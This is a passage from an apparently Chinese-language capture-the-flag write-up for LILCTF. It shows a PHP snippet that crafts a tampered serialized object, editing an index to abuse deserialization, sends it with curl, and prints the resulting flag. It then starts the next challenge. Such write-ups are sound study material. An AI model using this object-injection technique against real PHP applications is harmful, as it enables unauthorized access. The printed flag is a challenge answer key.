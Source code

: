 ```php
$user->value = serialize($access);

$ser = serialize(array($user, NULL));
$ser = str_replace('i:1;N;}', 'i:0;N;}', $ser); // 将最后的 null 索引修改成 0
echo urlencode($ser);
```

获得序列化结果后使用 `curl` 发送即可获得 Flag:

![](images/your_unser-4.webp)

得到 Flag 为: `LILCTF{GOnN4_1lnd_YOUr_4NSwER_To_uN$eR}`

### 我曾有一份工作

根据题目提示:

![](images/one_job-1.webp)
